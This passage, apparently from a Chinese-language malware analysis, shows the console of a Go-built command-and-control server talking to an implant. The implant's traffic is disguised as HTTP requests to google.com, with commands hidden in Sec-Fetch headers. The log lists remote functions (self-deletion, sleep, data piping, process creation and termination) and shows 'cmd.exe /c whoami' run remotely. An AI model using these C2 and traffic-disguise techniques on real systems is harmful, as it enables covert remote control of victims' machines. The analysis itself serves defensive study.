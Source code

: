 [![](assets/1701827602-81d08cae09e8736b93c083f95c97048f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205154647-719088c8-9342-1.png)

相关操作命令如下：

```plain
F:\GolandProjects\awesomeProject1>awesomeProject1.exe
Server started. Listening on 0.0.0.0:8000
POST /login.php HTTP/1.1
Host: www.google.com
Connection: keep-alive
Cache-Control: max-age=0
Sec-Fetch-Mode: 10
Sec-Fetch-User: S-WIN-JMKXXXXXOT
Sec-Fetch-Dest: 01


请选择需执行的功能:exit、help、11、12、30、33、34
>help
********支持功能如下********
11：样本自删除
12：休眠 1 小时
30：向管道传输数据
33：创建进程，并返回进程回显信息
34：终止 33 指令运行的进程程序
**************************
请选择需执行的功能:exit、help、11、12、30、33、34
>33
33 指令 - 请输入需执行的命令：quit-返回上层指令
>cmd.exe /c whoami
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 18


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
```